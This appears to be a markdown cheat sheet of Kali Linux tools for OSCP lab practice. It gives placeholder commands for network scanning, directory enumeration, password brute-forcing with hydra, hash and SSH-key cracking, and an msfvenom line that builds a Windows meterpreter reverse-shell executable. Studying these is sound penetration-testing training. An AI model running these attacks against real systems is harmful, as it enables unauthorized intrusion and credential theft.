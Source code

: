 # Kali (Tools)

- [openvpn](#openvpn): OSCP Labs Environment VPN client
- [netdiscover](#netdiscover): Discover network members by listening for ARP
- [nmap](#nmap): Network / port scanner with ability to fingerprint services
- [gobuster](#gobuster): HTTP webserver directory enumeration
- [searchsploit](#searchsploit): Keyword search on vulnerability / exploit database
- [msfvenom](#msfvenom): Generate exploit payloads
- [hydra](#hydra): Brute force / password spraying tool
- [hashcat](#hashcat): Cracks hashes with dictionary attack
- [ssh2john](#ssh2john): Extract password-hash from password-protected RSA private keys
- [john (John the Ripper)](#john): Password "recovery" (cracking) tool with various input formats


## openvpn

During the lab they will give you the URL of an OpenVNC Access Server, where you will authenticate with your lab credentials and be able to download an OpenVPN profile (i.e. a `.ovpn` file).

You can then connect to the VPN with the profile with:

```
sudo openvpn *.ovpn
```

You should immediately have a private IP for the network you joined.

## netdiscover

Discover network members by listening for ARP with:

```
netdiscover -i ${INTERFACE}
```

- You can list interfaces in linux with `ifconfig`

## nmap

> Cheatsheet [here](./../../cheatsheets/kali/nmap.md)

Scan a target host for open ports:

```
nmap -Pn -T4 -v -p- ${TARGET} -oN ${OUTPUT_LOG_FILE}
```

## gobuster

Enumerate a webserver's directories with:

```
gobuster dir -u http://${TARGET} -w ${PATH_TO_WORDLIST}
```

- Wordlists in Kali are all under `/usr/share/wordlists`
- You may also specify file extensions to try with the `-x` flag e.g. `-x '.php,.html,.js'`
- You may also specify non-default exclusion status codes witht he `-b` flag e.g. `-b 404,302`


## searchsploit

Search for exploits with:

```
searchsploit ${KEYWORD}
```

## msfvenom

Generate exploit payloads, e.g. you may craft a reverse shell for windows with:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=${YOUR_HOST} LPORT=${YOUR_LISTENER_PORT} -f exe > ${OUTPUT_FILENAME}
```

## hydra

Brute force / spray passwords against well known services e.g. ftp, ssh, mysql...

You may target a mysql server with

```
hydra mysql://${TARGET_HOST} -l ${USERNAME} -P ${PASSWORD_WORDLIST}
```

- Wordlists in Kali are all under `/usr/share/wordlists`
- You may also use the `-L` option for username wordlist
- You may also use the `-p` option to try only one password
- You may also use the `-C` option to provide a file of colon separated username:password combinations

## hashcat

> Cheatsheet [here](./../../cheatsheets/kali/hashcat.md)

Crack password hashes for a variety of techniques. e.g. crack an md5 hash (e.g. `-m 0`):

```
hashcat -m ${MODE} -o ${OUTPUT_FILE_PATH} ${HASHES_FILE} ${WORDLIST}
```

## ssh2john

Extract password-hash from password-protected RSA private keys with:

```
ssh2john ${PATH_TO_INPUT_PASS_PROTECTED_KEY} > ${PATH_TO_OUTPUT_FILE}
```

## john (John the Ripper)

Password "recovery" (cracking) tool with various input formats

```
john ${PASSWORD_FILE} --wordlist=${WORDLIST}
```